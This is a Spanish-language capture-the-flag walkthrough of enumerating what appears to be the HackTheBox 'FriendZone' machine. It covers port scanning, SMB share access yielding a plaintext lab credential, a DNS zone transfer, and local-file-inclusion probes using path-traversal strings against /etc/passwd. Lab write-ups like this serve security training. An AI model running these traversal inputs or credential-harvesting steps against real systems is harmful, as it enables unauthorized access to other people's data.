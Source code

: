 ## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.123
```
ttl: 63 -> maquina Linux

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.123
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.123 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p21,22,53,80,139,443,445 10.10.10.123 -oN targeted
```


| Puerto | Servicio | Que se nos occure?         | Que falta?  |
| ------ | -------- | -------------------------- | ----------- |
| 21     | ftp      | Conneccion como anonymous  |             |
| 22     | tcp      | Conneccion directa         | creds       |
| 53     | domain   | axfr attack                | ip y domain |
| 80     | http     | Web, Fuzzing               |             |
| 139    | Samba    | Coneccion con null session |             |
| 443    | https    | Web, Fuzzing               |             |
| 445    | Samba    | Coneccion con null session |             |

### Coneccion ftp como anonymous {-}

```bash
ftp 10.10.10.123
Name: anonymous
Password: 
#Output
Login failed
```

### Checkeamos el certificado ssl {-}

```bash
openssl s_client -connect 10.10.10.123:443
```

Aqui vemos un un correo `haha@friendzone.red`. Añadimos el dominio friendzone.red al `/etc/hosts`.

### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.123
```

Es un Apache 2.4.29 en un Ubuntu y podemos ver un nuevo dominio `friendzoneportal.red` que añadimos al `/etc/hosts`. 


#### Checkear la web {-}

Si entramos en la url `https://10.10.10.123`, No vemos gran cosas. 
Si vamos por la url `https://friendzone.red` vemos una nueva web, mirando el codigo fuente, vemos un comentario sobre un directorio
`/js/js` y si vamos por la url `https://friendzone.red/js/js` vemos una especie de hash en base64 que intentamos romper con el comando
`echo "MTZaVFhRMDBrSTE2MzUxMDgwMzRieUxPVHlmdGkz" | base64 -d | base64 -d` pero no nos da gran cosa. Si miramos la url `https://friendzoneportal.red`,
vemos otra imagen pero tampoco vemos gran cosa en este caso.


### Analyzando el SAMBA {-}

```bash
crackmapexec smb 10.10.10.123
smbclient -L 10.10.10.123 -N
```

Aqui el **smbclient** nos dice que estamos frente una maquina Windows 6.1 aun que sabemos que la maquina victima es un linux.

Vemos recursos compartidos a nivel de red como:

- print$
- Files
- general
- Development
- IPC$

Usando de la heramienta smbmap, podemos ver si tenemos accessos a estos recursos.

```bash
smbmap -H 10.10.10.123
```

y vemos que denemos accesso con derecho de lectura al directorio `general` y derechos de lectura y escritura al directorio `development`.
Vamos a conectarnos para ver lo que hay por estos registros

```bash
smbclient //10.10.10.123/general -N
dir
```

Vemos un fichero creds.txt y nos lo descargamos con el commando `get creds.txt`. 

Miramos si nos podemos conectar con `ssh admin@10.10.10.123` pero no podemos y miramos si tenemos accesso a mas registros.

```bash
smbmap -H 10.10.10.123 -u 'admin' -p 'WORKWORKHhallelujah@#'
```

### Ataque de transferencia de zona con Dig {-}

```bash
dig @10.10.10.123 friendzone.red
dig @10.10.10.123 friendzone.red ns
dig @10.10.10.123 friendzone.red mx
dig @10.10.10.123 friendzone.red axfr
```

El ataque de transferencia de zone nos permite ver una serie de subdominios como.

- administrator1.friendzone.red
- hr.friendzone.red
- uploads.friendzone.red

los introducimos en el `/etc/hosts` y lo analyzamos en firefox.

### Checkeamos los nuevos dominios {-}

Podemos ver que el `https://hr.friendzone.red` no nos muestra nada.
La url `https://uploads.friendzone.red` nos envia a una pagina donde podemos uploadear imagenes y la url
`https://administrator1.friendzone.red` nos muestra un panel de inicio de session.

Como hemos encontrado credenciales con smb, intentamos conectarnos desde el panel de inicio de session y estas credenciales son validas.

Aqui vemos que existe un fichero `dashboard.php`. Si vamos a la url `https://administrator1.friendzone.red/dashboard.php`, tenemos un mensaje que
dice que el falta el parametro image_name y que por defecto, necesitamos poner `image_id=a&pagename=timestamp`. Intentamos la url siguiente:

```bash
https://administrator1.friendzone.red/dashboard.php?image_id=a&pagename=timestamp
```

Aqui nos aparece una nueva pagina. Nos llama la atencion el parametro pagename y intentamos cosas

```bash
https://administrator1.friendzone.red/dashboard.php?image_id=a&pagename=timestamp
https://administrator1.friendzone.red/dashboard.php?image_id=a&pagename=timestam
https://administrator1.friendzone.red/dashboard.php?image_id=a&pagename=dashboard.php
https://administrator1.friendzone.red/dashboard.php?image_id=a&pagename=dashboard
https://administrator1.friendzone.red/dashboard.php?image_id=a&pagename=/../../../../../etc/passwd
https://administrator1.friendzone.red/dashboard.php?image_id=a&pagename=/../../../../../etc/passwd%00
```

Aqui hemos constatado que podemos injectar una pagina de la web en esta misma pagina y que no se necessita poner la extension que la pagina añade
`.php` por si sola. Es por esto que no se puede ver el `/etc/passwd` porque añade un `.php` al final.



